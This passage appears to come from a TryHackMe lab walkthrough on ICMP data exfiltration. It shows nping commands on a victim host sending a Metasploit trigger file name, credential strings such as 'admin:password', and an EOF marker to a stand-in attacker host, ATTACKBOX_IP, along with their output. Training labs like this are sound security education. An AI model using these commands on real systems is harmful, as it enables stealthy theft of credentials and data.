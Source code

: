 - **Sending the Trigger Value from the Victim**

```shell
thm@jump-box$ ssh thm@icmp.thm.com
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0369s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=7785 seq=1] IP [ttl=64 id=40595 iplen=39 ]
RCVD (0.0376s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=63 id=12656 iplen=39 ]
RCVD (0.0755s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=31 id=60759 iplen=32 ]
    
Max rtt: 38.577ms | Min rtt: 0.636ms | Avg rtt: 19.606ms
Raw packets sent: 1 (39B) | Rcvd: 2 (71B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds 
```

We sent one ICMP packet using the nping command with --data-string argument. We specify the trigger value with the file name BOFfile.txt, set by default in the Metasploit framework. This could be changed from Metasploit if needed!

Now check the AttackBox terminal. If everything is set correctly, the  Metasploit framework should identify the trigger value and wait for the  data to be written to disk. 

Let's start sending the required data and the end of the file trigger value from the ICMP machine.

- **Sending the Data and the End of the File Trigger Value**

```shell
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0312s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=14633 seq=1] IP [ttl=64 id=13497 iplen=42 ]
RCVD (0.0328s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=63 id=17031 iplen=42 ]
RCVD (0.0703s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=31 id=41138 iplen=30 ]
    
Max rtt: 39.127ms | Min rtt: 1.589ms | Avg rtt: 20.358ms
Raw packets sent: 1 (42B) | Rcvd: 2 (72B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin2:password2"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0354s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=39051 seq=1] IP [ttl=64 id=32661 iplen=44 ]
RCVD (0.0358s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=63 id=18581 iplen=44 ]
RCVD (0.0748s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=31 id=2149 iplen=30 ]
    
Max rtt: 39.312ms | Min rtt: 0.371ms | Avg rtt: 19.841ms
Raw packets sent: 1 (44B) | Rcvd: 2 (74B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0364s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=33619 seq=1] IP [ttl=64 id=51488 iplen=31 ]
RCVD (0.0369s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=63 id=19671 iplen=31 ]
```